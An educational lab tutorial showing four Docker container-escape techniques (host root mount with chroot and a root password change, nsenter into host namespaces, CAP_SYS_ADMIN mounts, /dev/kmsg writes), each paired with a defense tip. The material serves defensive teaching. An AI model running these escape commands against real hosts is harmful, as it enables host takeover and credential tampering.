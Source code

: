 # 🧪 Lab Series: Container Escape with Docker (Educational Use Only)

> ⚠️ WARNING: These labs are for educational and defensive purposes only.  
> Run them **only in isolated, non-production environments** like VMs or lab systems.

## 🎯 Objective
Learn how insecure Docker configurations can lead to container escapes and host compromise — and how to prevent them.

---

## 🧰 Prerequisites

- A Linux VM (never your main host!)
- Docker installed
- Root access
- Tools: `gcc`, `make`, `procps`, `util-linux`

```bash
sudo apt update
sudo apt install gcc make procps util-linux -y
```

---

## 🔹 Lab 1: Host Mount Escape via `-v /:/host`

### Step 1: Run a container with full host access

```bash
docker run -it --rm --privileged -v /:/host ubuntu bash
```

### Step 2: Simulate host access

```bash
chroot /host bash
passwd root  # Example, do not use on real systems
```

✅ **Expected:** Full host access.

🧠 **Defense:** Never mount `/`, use strict volume policies.

---

## 🔹 Lab 2: Escape via `--privileged` and `/proc`

### Step 1: Start a privileged container

```bash
docker run -it --rm --privileged ubuntu bash
```

### Step 2: Enter host namespaces

```bash
nsenter --target 1 --mount --uts --ipc --net --pid
```

✅ **Expected:** You are now in the host’s namespaces.

🧠 **Defense:** Avoid `--privileged`, use minimal capabilities.

---

## 🔹 Lab 3: Simulated Kernel Escape via `CAP_SYS_ADMIN`

> This does **not** run a real exploit, but shows how dangerous capabilities can be.

### Step 1: Launch container with high privileges

```bash
docker run -it --rm --cap-add=SYS_ADMIN ubuntu bash
```

### Step 2: Try sensitive operations

```bash
mount -t proc proc /mnt
```

✅ **Expected:** You have low-level kernel control.

🧠 **Defense:** Drop all unnecessary capabilities.

---

## 🔹 Lab 4: Escape via Host Devices

### Step 1: Run container with device access

```bash
docker run -it --rm --privileged --device /dev/kmsg ubuntu bash
```

### Step 2: Write to kernel logs

```bash
echo "MESSAGE FROM CONTAINER" > /dev/kmsg
```

✅ **Expected:** Writes to host kernel logs.

🧠 **Defense:** Do not expose host devices unless absolutely needed.

---

## ✅ Wrap-Up

- **What you learned:**
    - How misconfigurations can lead to escapes
    - Common escape vectors: privileged mode, host mounts, capabilities
    - Defense-in-depth: drop caps, limit mounts, audit configs

- **Best practices:**
    - Never use `--privileged` unless critical
    - Use security profiles (AppArmor, seccomp)
    - Use namespaces and rootless containers
    - Audit Dockerfiles and runtime flags

---